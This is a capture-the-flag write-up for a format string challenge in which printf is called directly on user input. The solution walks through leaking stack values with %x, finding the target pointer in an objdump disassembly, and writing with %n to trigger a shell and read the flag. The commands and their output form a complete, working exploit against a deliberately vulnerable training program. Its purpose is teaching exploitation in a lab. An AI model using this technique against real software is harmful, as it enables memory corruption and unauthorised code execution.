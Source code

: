 # 70 - Format

*Written by Michael Zhang and Sean Anderson*

## Problem

The function printf can do a lot of great things, but depends on how you use it. Try to exploit this very irresponsible use of printf.

Problem can be found at `/problems/format1` and source can be downloaded [here](format1.c).

## Hint

This line might interest you... `printf(argv[1]);`. What happens if no format arguments are provided?

## Solution

This program does not use printf correctly, using user input as a format string.  This allows the user to view and modify the stack of the program.  For example, to view some data on the stack, simply put a valid format string as the program's first argument:

```bash
$ ./format1 %x
1bc3be08$
```

At first glance, it seems that all printf can do is print data, however it can also write abitrary values using the `%n` format string.  From the man page:

>  The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument.  No argument is converted.

Therefore, all we need to do is write more than 9000 characters, and `vuln()` will execute.  To do this, we need to find out what pointer the program uses to refer to `key`.  First, lets load up get a disassembly with `objdump -d format1`

```
000000000040064e <main>:
  40064e:	55                   	push   %rbp
  40064f:	48 89 e5             	mov    %rsp,%rbp
  400652:	48 83 ec 20          	sub    $0x20,%rsp
  400656:	89 7d ec             	mov    %edi,-0x14(%rbp)
  400659:	48 89 75 e0          	mov    %rsi,-0x20(%rbp)
  40065d:	48 c7 45 f8 50 10 60 	movq   $0x601050,-0x8(%rbp)
  400664:	00 
  400665:	48 8b 45 e0          	mov    -0x20(%rbp),%rax
  400669:	48 83 c0 08          	add    $0x8,%rax
  40066d:	48 8b 00             	mov    (%rax),%rax
  400670:	48 89 c7             	mov    %rax,%rdi
  400673:	b8 00 00 00 00       	mov    $0x0,%eax
  400678:	e8 63 fe ff ff       	callq  4004e0 <printf@plt>
  40067d:	8b 05 cd 09 20 00    	mov    0x2009cd(%rip),%eax        # 601050 <__TMC_END__>
  400683:	3d 28 23 00 00       	cmp    $0x2328,%eax
  400688:	7e 0a                	jle    400694 <main+0x46>
  40068a:	b8 00 00 00 00       	mov    $0x0,%eax
  40068f:	e8 82 ff ff ff       	callq  400616 <vuln>
  400694:	b8 00 00 00 00       	mov    $0x0,%eax
  400699:	c9                   	leaveq 
  40069a:	c3                   	retq   
  40069b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
```
   
  We can see that in `40065d`, `0x601050` is stored onto the stack as a local variable.  Next, lets see where on the stack the local variable is when we run printf:
  
```
$ ./format1 %x-%x-%x-%x-%x-%x-%x-%x-%x-%x
42d3038-42d3050-4006a0-e1bdce80-e1bdce80-42d3038-400520-42d3030-601050-4006a0$ 
```

We can see that the pointer `601050` is the 9th value on the stack.  (In the competition it was the 7th, but this is a different compile).  Based on this information, the input of the program should be

```
$ ./format1 garbagedata%x%x%x%x%x%x%x%x%n
```

It is very tedious to type out over 9000 characters of garbage, so we will create a file with this data.  

```
$ for i in `seq 1 9000`; do echo -n "x"; done > ~/xs.txt
$ echo "%x%x%x%x%x%x%x%x%n" | cat ~/xs.txt - > ~/arg.txt
```

Now that we have the garbage, all we have to do is feed it into the program and get the flag.

```
$ xargs -a ~/arg.txt ./format1
xxxxxxxxxxxxxxxxxxxxxxxx ... xxxxxxxx$ whoami
format1
$ cat flag.txt
it's over 9000!!11!1one1!
$ exit
```

## Flag

`it's over 9000!!11!1one1!`











